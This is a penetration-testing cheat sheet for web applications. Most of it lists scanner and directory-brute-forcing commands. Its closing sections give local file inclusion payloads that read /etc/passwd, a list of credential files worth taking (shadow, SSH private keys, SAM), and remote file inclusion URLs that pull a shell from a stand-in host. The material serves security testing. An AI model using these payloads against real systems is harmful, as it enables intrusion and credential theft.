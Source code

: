 HTTP General Notes


### Step 1: ALWAYS LOOK AT THE SOURCE CODE OF THE WEBPAGE!

### Manual Connect
Using **openssl** to connect to a webserver (HTTPS):

```
openssl s_client -connect hack.me:443 [-debug] [-state] [-quiet]
```

- Debug flag optional.
- State is optional - prints the state of the handshake.
- Quiet is optional. 

Using **Httprint** to identify web servers:
`httprint -P0 -h <target hosts> -s <signature file>`

- `-P0`  to avoid pinging the host first
- `-h` the list of hosts (IP addresses/IP range)
- `-s` signature file to use


### Web App Scanners

Nikto: 

- `nikto --url <domain>`

Wpscan:

- `wpscan --url <domain>`
- `wpscan --url <domain> --enumerate ap at` (All Plugins, All Themes)
- `wpscan --url <domain> --enumerate u` (Usernames)
- `wpscan --url <domain> --enumerate v`

Web Tools for Directory Scanning: 

Dirb: 

- `dirb <domain>`
- `dirb <domain> <wordlist>`

Gobuster: 

- `gobuster -u <url> -w /usr/share/wordlists/<Wordlist file>`
- `gobuster -u <url> -w /usr/share/wordlists/<Wordlist file> -a Firefox` (Custom Agent)
- `gobuster -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html`
- `gobuster -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200"`
- `gobuster -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200"`
- `gobuster -v -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200"`
- `gobuster -v -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200" -o output.txt`
- `gobuster -s 200,204,301,302,307,403 -u 172.21.0.0 -w /usr/share/seclists/Discovery/Web_Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'`

Wfuzz:

- `wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ`
- `wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ`
- `wfuzz -z file,wordlist/others/common_pass.txt -d "uname=FUZZ&pass=FUZZ"  --hc 302 http://testphp.vulnweb.com/userinfo.php (Post Requests)`
- `wfuzz -z file,wordlist/general/common.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ` (Fuzzing Cookies)

Dirsearch: 

- `dirsearch /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 172.21.0.0 -e php`


Other Tools: 
- Burp Suite
- OWASP Zap
- Cadaver
- SQLMap
- Joomscan


### Testing for LFI: 

https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf

Examples: 

http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd

Interesting Files:

Linux:
```
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/root/.ssh/id_rsa
/root/.ssh/authorized_keys
/home/user/.ssh/authorized_keys
/home/user/.ssh/id_rsa
```

Windows:
```
/boot.ini
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/SAM
```


### Testing for RFI: 

http://example.com/index.php?page=http://callback.com/shell.txt
http://example.com/index.php?page=http://callback.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt

### Resources

- Turning LFI to RFI: https://l.avala.mp/?p=241